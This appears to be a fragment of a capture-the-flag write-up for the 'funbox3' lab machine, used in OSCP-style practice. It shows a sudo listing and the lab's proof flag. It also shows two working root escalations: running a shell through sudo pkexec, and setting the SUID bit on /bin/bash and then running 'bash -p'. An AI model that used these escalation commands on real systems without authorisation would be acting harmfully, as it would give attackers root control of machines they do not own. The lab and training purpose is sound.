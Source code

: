 ```console
tony@funbox3:~$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

https://gtfobins.github.io/

```console
tony@funbox3:~$ sudo /usr/bin/pkexec /bin/sh
#whoami
root
# 
```

Review time command


```console
#cat proof.txt
d46c81ed105cf4f1876b108284744af8
# 
```

```console
tony@funbox3:~$ sudo /usr/bin/pkexec chmod u+s /bin/bash
tony@funbox3:~$ bash -p
bash-5.0# whoami
root
```

References

https://gtfobins.github.io/

https://book.hacktricks.xyz/linux-unix/privilege-escalation

https://netsec.ws/?p=337

https://github.com/carlospolop/hacktricks/tree/master/linux-unix/privilege-escalation

https://www.netsecfocus.com/oscp/2021/05/06/The_Journey_to_Try_Harder-_TJnull-s_Preparation_Guide_for_PEN-200_PWK_OSCP_2.0.html

https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html#enumeration
